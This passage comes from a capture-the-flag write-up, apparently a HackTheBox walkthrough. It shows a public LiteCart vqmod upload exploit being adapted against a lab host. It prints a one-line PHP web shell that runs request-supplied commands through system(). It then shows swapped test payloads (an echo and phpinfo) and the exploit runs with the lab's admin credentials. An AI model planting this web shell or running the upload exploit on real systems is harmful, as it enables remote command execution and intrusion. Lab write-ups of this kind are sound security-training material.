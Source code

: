 

So the upload succeeded, but the execution isn't working. I can check
that a different way by modifying the script. It's this line that sets
the payload:



    files = {
            'vqmod': (rand + ".php", "<?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); } ?>", "application/xml"),
            'token':one,
            'upload':(None,"Upload")
        }



I'll change that to something more benign:



    files = {
            'vqmod': (rand + ".php", "<?php echo '0xdf was here'; } ?>", "application/xml"),
            'token':one,
            'upload':(None,"Upload")
        }



It works:



    root@kali# python 45267.py -t http://10.10.10.207/shop/admin/ -u admin -p 'theNextGenSt0r3!~'
    Shell => http://10.10.10.207/shop/admin/../vqmod/xml/XPKU4.php?c=id
    0xdf was here



`phpinfo()` will provide useful information about the box:



    files = {
            'vqmod': (rand + ".php", '<?php phpinfo();  ?>', "application/xml"),
            'token':one,
            'upload':(None,"Upload")
        }





    root@kali# python 45267.py -t http://10.10.10.207/shop/admin/ -u admin -p 'theNextGenSt0r3!~'
    Shell => http://10.10.10.207/shop/admin/../vqmod/xml/DPYLZ.php?c=id
    <!DOCTYPE.md PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "DTD/.md1-transitional.dtd">
    .md xmlns="http://www.w3.org/1999/.md"><head>
    ...[snip]...



I'll use that address to view the page. In that information, it's clear
why the webshell isn't working:

[![](/img/image-20210116152148808.png)*Click
for full size